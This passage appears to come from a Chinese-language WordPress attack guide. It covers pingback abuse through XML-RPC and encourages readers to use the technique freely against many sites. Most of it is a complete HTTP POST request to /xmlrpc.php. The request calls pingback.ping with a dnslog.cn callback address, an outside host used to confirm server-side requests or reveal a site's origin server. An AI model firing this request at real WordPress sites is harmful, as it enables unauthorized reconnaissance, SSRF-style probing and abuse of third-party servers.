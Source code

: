 ![Alt text](./static/1609924903773.png)

#####十、通过 XML-RPC PINGBACK 通信

- XML-RPC 是支持 WordPress 与其他系统之间通信的规范，它通过使用 HTTP 作为传输机制和  XML 作为编码机制来标准化这些通信过程。
- 在 WordPress 的早期版本中，默认情况下已关闭 XML-RPC，但是从3.5版本开始，默认情况下开启。
- XML-RPC 支持 trackback 和 pingback。
- 虽然 WordPress 启用了 REST API 来代替 XML-RPC ，不过 XML-RPX 不会过时的，放心大胆的使用就好，虽然 XML-RPC 这个技术很老了，但依然可以通杀很多网站。

配置好 dnslog，POST 请求 XML-RPC：

```xml
POST /xmlrpc.php HTTP/1.1
Host: domain.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 323

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://2vbis4.dnslog.cn</string></value>
</param>
<param>
<value><string>https://domain.com/</string></value>
</param>
</params>
</methodCall>
```
